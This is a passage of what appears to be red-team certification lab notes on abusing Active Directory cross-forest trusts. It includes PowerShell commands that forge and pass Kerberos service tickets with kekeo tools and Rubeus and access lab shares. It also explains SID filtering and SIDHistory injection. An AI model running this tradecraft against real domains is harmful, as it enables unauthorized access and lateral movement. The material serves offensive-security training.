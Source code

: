Get a TGS for a service (CIFS below) in the target forest by using the forged trust ticket:
```powershell
.\asktgs.exe C:\AD\Tools\kekeo_old\sharedwitheu.kirbi CIFS/euvendor-dc.euvendor.local
```

> Tickets for other services (like HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting and WinRM) can be created as well

Use the TGS to access the target resource which must be explicitly shared:
```powershell
.\kirbikator.exe lsa CIFS.euvendor-dc.euvendor.local.kirbi
ls \\euvendor-dc.euvendor.local\eushare\
```

We can also use Rubeus:
```powershell
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\sharedwitheu.kirbi /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
```

- This is fine but why can't we access all resources just like Intra forest?
- **SID Filtering** is the answer. 
- It filters high privilege SIDs from the **SIDHistory** of a TGT crossing forest boundary. 
- This means we cannot just go ahead and access resources in the trusting forest as an Enterprise Admin.

> But there is a catch:

![Alt text](/assets/images/posts/crte/4.png){: .align-center}


Reference: 

[MS-PAC: Privilege Attribute Certificate Data Structure](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280)


> This means, if we have an external trust (or a forest trust with SID history enabled -/enablesidhistory:yes), we can inject a **SIDHistory for RID > 1000** to access resources accessible to that identity or group in the target trusting forest.

We had DA access to eu.local. Let's enumerate trusts from a PSRemoting session on eu-dc:
```powershell
Get-ADTrust -Filter *
```

- **SIDFilteringForestAware** is set to **True**, it means SIDHistory is enabled across the forest trust.

Please remember that still only RID > 1000 SIDs will be allowed across the trust boundary:
```powershell
Get-ADGroup -Identity EUAdmins -Server euvendor.local
```
